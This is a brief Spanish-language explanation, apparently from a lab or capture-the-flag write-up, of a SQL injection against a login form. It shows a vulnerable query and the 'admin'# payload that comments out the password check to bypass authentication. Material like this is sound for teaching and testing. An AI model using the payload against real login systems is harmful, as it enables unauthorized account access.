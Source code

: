 Realizamos una SQL injection a un login form
No existe validación del nombre de usuario para evitar caracteres especiales
Agregar un `#`puede comentar el resto de la consulta SQL
```SQL
SELECT * FROM users WHERE username='admin' AND password='a'
```
Añadiremos `'#` para cerrar y comentar el resto de la consulta
```SQL
SELECT * FROM users WHERE username='admin'#' AND password='a'
```
